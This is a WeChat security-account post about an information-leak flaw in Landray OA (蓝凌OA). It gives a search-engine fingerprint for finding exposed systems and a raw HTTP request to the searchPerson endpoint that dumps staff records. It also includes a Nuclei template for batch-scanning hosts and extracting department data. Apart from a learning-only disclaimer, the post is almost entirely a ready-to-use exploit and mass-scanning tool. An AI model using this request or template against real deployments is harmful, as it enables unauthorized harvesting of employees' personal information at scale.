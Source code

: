 #  蓝凌OA 信息泄露

原创 Kokoxca安全  [ Kokoxca安全 ](javascript:void\(0\);)

**Kokoxca安全** ![]()

微信号 gh_b130bebc48f2

功能介绍 学习网络安全，渗透笔记，代码审计。

____

___发表于_

0x01
技术文章仅供参考学习，请勿使用本文中所提供的任何技术信息或代码工具进行非法测试和违法行为。若使用者利用本文中技术信息或代码工具对任何计算机系统造成的任何直接或者间接的后果及损失，均由使用者本人负责。本文所提供的技术信息或代码工具仅供于学习，一切不良后果与文章作者无关。使用者应该遵守法律法规，并尊重他人的合法权益。

0x02 指纹信息

  * 

    
    
    app="Landray-OA系统"

0x03漏洞复现

数据包

  *   *   *   *   *   *   *   *   *   * 

    
    
    GET /sys/zone/sys_zone_personInfo/sysZonePersonInfo.do?.js?&method=searchPerson&orderby&ordertype=up&rowsize=200&s_ajax=true HTTP/1.1Host: xxxxCache-Control: max-age=0Upgrade-Insecure-Requests: 1User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7Accept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9Cookie: JSESSIONID=F7FF497303B2F4CD39FC43E5EDB2D015Connection: close

![]()

批量检测脚本  

![]()

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    id: landray-sysZonePersonInfo-infoleak  
    info:  name: landray-sysZonePersonInfo-infoleak  author: Kokoxca  severity: high  
      
    http:  - raw:      - |        GET /sys/zone/sys_zone_personInfo/sysZonePersonInfo.do?.js?&method=searchPerson&orderby&ordertype=up&rowsize=20&s_ajax=true HTTP/1.1        Host: {{Hostname}}        User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36        Accept-Encoding: gzip        Connection: close  
      
      
        matchers:      - type: dsl        dsl:          - status_code==200 && contains_all(body,"columns","title","property")  
      
        extractors:      - type: json        part: body        json:          - .datas[][] | select(.col == "fdDept") | .value

  

预览时标签不可点

微信扫一扫  
关注该公众号

继续滑动看下一个

# 蓝凌OA 信息泄露

原创 Kokoxca安全  [ Kokoxca安全 ](javascript:void\(0\);)

轻触阅读原文

![]()

Kokoxca安全

赞 分享 在看

向上滑动看下一个

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看 分享 留言

